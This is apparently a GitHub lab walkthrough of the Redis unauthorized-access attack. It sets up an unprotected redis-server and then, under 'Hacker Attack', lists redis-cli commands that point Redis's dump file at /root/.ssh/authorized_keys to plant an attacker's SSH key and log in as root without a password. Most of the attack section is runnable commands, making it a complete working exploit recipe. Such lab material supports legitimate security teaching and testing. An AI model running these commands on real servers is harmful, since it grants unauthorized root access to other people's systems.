

# Redis Unauthorized Access

## Introduction

[Redis](https://redis.io/docs/about/) is a data structure server. At its core, Redis provides a collection of native data types that help you solve a wide variety of problems, from caching to queuing to event processing. 

Redis is designed to be accessed by trusted clients inside trusted environments. This means that usually it is not a good idea to expose the Redis instance directly to the internet or, in general, to an environment where untrusted clients can directly access the Redis TCP port or UNIX socket.

Unfortunately, many users fail to protect Redis instances from being accessed from external networks.

When a hacker accesses Redis without password protection running as root, hacker's ssh public key can be written into the target server `/root/.ssh/authotrized_keys` file, and then the target server can be directly logged in through hacker's Private key.



## Server Deployment

1. Watch `/root/.ssh/authorized_keys` file
    ```
    watch -n 1 cat /root/.ssh/authorized_keys
    ```

2. Get server ip
    ```
    ifconfig | grep inet
    ```

3. Install redis-server
   ```
   apt-get install redis-server
   ```

4. Start redis-server
    ```
    # check ip
    ifconfig | grep inet

    # start redis-server
    redis-server --port 7777 --protected-mode no
    ```

## Hacker Attack

1. Generate ssh key and certificate

    hacker generate key to `/root/.ssh/id_rsa` and generate certificate to `/root/.ssh/id_rsa.pub`.

    ```
    ssh-keygen -t rsa
    cat /root/.ssh/id_rsa
    cat /root/.ssh/id_rsa.pub
    ```

2. Test remote ssh

    After checking, it is found that ssh login to the remote server requests a password, but hacker does not have a corresponding password.
    ```
    ssh root@${remote_server}
    ```

3. Start attack

    Use `redis-cli` to connect with `redis-server`:

    ```
    redis-cli -p 7777 -h ${remote_server}
    ```

    Write local `/root/.ssh/id_rsa.pub` to remote `/root/.ssh/authorized_keys`

    ```
    config set dir /root/.ssh
    config set dbfilename authorized_keys
    set xxxx "\n\nssh-rsa key_pub\n\n"
    get xxxx
    save
    exit
    ```

    The `ssh-rsa key_pub` is string of file `/root/.ssh/id_rsa.pub`.

4. Test remote ssh

    After checking, it is found that ssh does not require a password when logging into the remote server.
    ```
    ssh root@${remote_server}
    ```
